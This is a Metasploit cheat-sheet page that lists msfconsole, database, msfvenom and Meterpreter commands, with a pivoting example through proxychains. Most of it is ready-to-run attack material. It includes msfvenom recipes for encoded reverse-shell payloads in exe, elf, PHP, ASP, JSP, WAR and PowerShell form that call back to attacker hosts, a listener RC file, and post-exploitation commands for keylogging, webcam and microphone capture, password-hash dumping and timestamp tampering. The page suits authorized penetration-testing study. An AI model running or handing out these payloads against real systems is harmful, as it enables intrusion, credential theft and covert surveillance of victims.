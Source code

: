 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Start Postgress | <code> </code>
Start w/ RC File | <code> msfconsole -r meta_config </code>
Example RC file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run a rc file | <code> resource [location of RC file] </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> [location]/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> [location]/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Global Hosts | <code> setg RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client

> **Database** 

Commands | db_connect, db_disconnect, db_driver, db_status, db_export
Data | hosts, vulns, services, creds, loot, notes
Populate Hosts/Ports | use auxiliary/scanner/protscan/[tcp or syn] <br> use auxiliary/discovery/udp_sweep <br> db_nmap
Manually | hosts --add/--delete [host]<br> services --add/--delete -p [port] -r [proto] -s [name] [host1, host2,...] <br> notes --add/--delete -r [type] -n '[note text]' [host1, host2,...]
Import | db_import Nmap XML (-oX option) Nessus XMLv2 or XMLv2 (.nessus)
Hosts Help and Search | hosts -h <br> host -S linux -R (adds to RHOST)
Vulnearabilities | vulns -h <br> vulns -S RPC <br> vulns -P 445

> **MSFVenom**

Example | <code> msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe > /tmp/file.exe </code>
Shell Code| <code> msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d" </code>
Shell Code for Threaded Apps | <code> msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 ExITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
Encoded shell code for JS or HTML (client side) | <code> msfvenom -p windows/shell_revers-tcp LHOST=192.168.2.1 LPORT=443 -f js_le --platform windows -a x86 -e generic/none
Payloads | msfvenom -l payloads
Bad Characters | -b "\x00\x0a\x0d"
Help | msfvenom --help-formats

**Windows:**

Binary | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f exe > shell.exe </code>
Powershell Reflection | <code> msfvenom -p windows/meterpreter/reverse_https lhost=[attacker] lport=[attackerport] -f psh-reflection -a x86 > output.txt </code> 
Powershell Command | <code> msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_https LHOST=[attackerIP] LPORT=[attackerPort] -e x86/shikata_ga_nai –f psh-cmd </code> 

**Linux:**

Binary | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f elf > shell.elf </code>
Python | <code> msfvenom -p cmd/unix/reverse_python LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.py </code>
Bash | <code> msfvenom -p cmd/unix/reverse_bash LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.sh </code>
Perl | <code> msfvenom -p cmd/unix/reverse_perl LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.pl </code> 

**Mac:** 

Binary | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f macho > shell.macho </code>

**Web:**

PHP | <code> msfvenom -p php/meterpreter_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.php <br> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </code>
ASP | <code>  msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f asp > shell.asp </code> 
JSP | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.jsp </code>
WAR | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f war > shell.war </code>

**Shellcode:**

Linux | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Windows | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Mac | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>

> **Meterpreter**

Get system info | sysinfo
Read Registry | reg
Change local directory | lcd
Download and Upload | download/upload
Make/Remove Directory | mkdir/rmdir
Edit a file | edit
Get the PID | getpid
Get the users ID | getuid
process list | ps
Drop to Command Prompt | Shell
Terminate Program | kill [pid]
Run a program | execute [program]
Change process | migrate [PID]
Display Routing Table | route
TCP relay | portfwd add -l 1111 -p 80 -r Target 2
Screen Shot | screenshot -p [filename.jpg]
List Webcams and take a picture | webcam_list, webcam_snap
Record Microphone | record_mic -d [Seconds]
Keylogger | keyscan_start, keyscan_stop, keyscan_dump
modules | data/meterpreter/
Load Module | use [last component of dll name]
priv modules | hashdump (SAM database), timestomp (MACE dates/times)
Port Scanner | meterpreter > load msfmap <br> meterpreter > msfmap

> **Route and Proxychain**

* Metasploit:

{% highlight bash %}
meterpreter > ipconfig 
Broadcom 440x 10/100 Integrated Controller - Packet Scheduler Miniport
Hardware MAC: 00:0b:db:1d:d3:2b
IP Address : 192.168.15.3
Netmask : 255.255.255.0

meterpreter > run arp_scanner -r 192.168.15.1/24
[*] ARP Scanning 192.168.15.1/24
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff

route add 192.168.15.1 255.255.255.0 1

msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.15.1
RHOSTS => 192.168.15.1
msf auxiliary(tcp) > set PORTS 1-1024
PORTS => 1-1024

msf auxiliary(tcp) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options
msf auxiliary(socks4a) > set SRVHOST 159.203.173.82
SRVHOST => 159.203.173.82
msf auxiliary(socks4a) > run
{% endhighlight %}

* Proxy Chain Configuration:

{% highlight bash %}
vi /etc/proxychains.conf 
#comment out DNS
#Change sock4 to:
socks4 [IP of Attack Machine] [PORT of attach machine]

proxychains nmap -sT -P0 10.0.0.10

{% endhighlight %}

> **Resources**

* [Metasploit Module to Standalone Exploit](https://netsec.ws/?p=262)
* [Metasploit Module to Standalone Exploit](https://www.theweakestlink.es/index.php/2016/04/18/from-metasploit-module-to-pyhton-standalone-with-the-help-of-wireshark/)
* [Metasploit Module to Standalone Exploit](https://www.shellcode.it/article/convert-msf-module/)
* [Common Commands](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#common-metasploit-modules)






